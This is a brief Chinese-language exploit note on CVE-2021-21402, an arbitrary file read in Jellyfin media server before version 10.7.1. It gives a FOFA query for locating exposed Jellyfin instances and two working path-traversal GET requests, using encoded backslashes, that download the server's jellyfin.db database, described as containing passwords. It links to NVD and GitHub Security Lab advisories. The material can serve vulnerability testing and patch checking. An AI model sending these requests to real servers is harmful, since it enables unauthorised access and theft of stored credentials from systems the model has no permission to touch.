

# Jellyfin 任意文件读取（CVE-2021-21402）

Jellyfin是一个免费软件媒体系统。在10.7.1版之前的Jellyfin中，带有某些终结点的精心设计的请求将允许从Jellyfin服务器的文件系统中读取任意文件。

fofa：

```
title="Jellyfin"
```

任意文件读取：

```
//以下请求jellyfin.db将从服务器下载带有密码的数据库
GET /Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/ HTTP/1.1
GET /Videos/anything/hls/m/..%5Cdata%5Cjellyfin.db HTTP/1.1
```




ref：

* https://nvd.nist.gov/vuln/detail/CVE-2021-21402
* https://securitylab.github.com/advisories/GHSL-2021-050-jellyfin/
* https://forum.ywhack.com/thread-115353-1-7.html